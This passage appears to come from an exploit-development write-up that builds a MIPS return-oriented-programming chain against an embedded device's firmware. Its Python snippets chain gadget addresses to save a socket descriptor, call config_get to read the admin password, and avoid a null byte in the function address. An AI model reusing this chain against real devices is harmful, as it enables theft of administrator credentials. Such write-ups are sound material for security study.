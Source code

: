 That 2nd gadget is not the prettiest as it uses a lot of padding, but the only other gadget that contained the **jalr $v0;** instruction immediately wiped out the _sockfd_ returned by _socket_, which is pretty important! Sometimes you need to accept not all gadgets will be pretty.

If you look at the last gadget, we set the value of _$s0_ to be _sockfd_addr_, which is an address that we will be using to store our _sockfd_ returned by _socket_ for use later. We can then use the following gadget to store _$v0_ (containing our return value) to _($s0)_:

```
-python
# save the socket file descriptor for use later, might not use but oh well
# 0x00185e38: sw $v0, ($s0); lw $ra, 4($sp); lw $s0, ($sp); jr $ra; addiu $sp, $sp, 8;
chain += p32(0x80236c4c - 4) # s0 (0x1010200 address)
chain += p32(0x153d0 + base_address) # ra
```

### config_get

Next, we need to get the value of the admin password from the config that will be sent. By tracing through the calls make by the command line **cfg get** function, I found the function responsible for pulling these values from the config. All we need to provide this function is the ID of the value we want, and where to store it.

The only annoying thing about the address of the _config_get_ function is that it is at address _0x800089e4_, which would contain a null byte if we sent it as is, so we will need to handle this with our gadgets. Lets first set the arguments:

```
-python
# Set a0 to be the id of the admin password
# 0x000153d0: lw $a0, 4($s0); lw $ra, 4($sp); addiu $v0, $zero, 2; lw $s0, ($sp); jr $ra; addiu $sp, $sp, 8;
chain += p32(0x800089e4 + 0x7b58) # s0
chain += p32(0x11e568 + base_address)

# 0x0011e568: lw $a1, ($sp); lw $ra, 0xc($sp); move $v0, $zero; jr $ra; addiu $sp, $sp, 0x10;
chain += p32(pwd_buffer)
chain += b'b' * 0x8
chain += p32(0x137960 + base_address)
```

As you can see, we have set _$a0_ to contain the address of 0x1010200 (we set _$s0_ to be the address of 0x1010200 - 4 earlier, so this is why 4($s0) get the correct address). We also set *$a1\* to be the address of the buffer we want to store the password.

We have also set _$s0_ to contain the address of the _config_get_ function + 0x7b58, this means we can send it as it no longer contains a null byte. We can use the following gadget to subtract the extra we added on:

```
-python
## The address of config load contains a null byte, so we will have to do some subtracting (s0 is set to address of function + 0x7b58)
# 0x00137960: addiu $v0, $s0, -0x7b58; lw $ra, 4($sp); lw $s0, ($sp); jr $ra; addiu $sp, $sp, 8;
chain += p32(0xdeadbeef) # s0
chain += p32(0x15114 + base_address) # ra
```
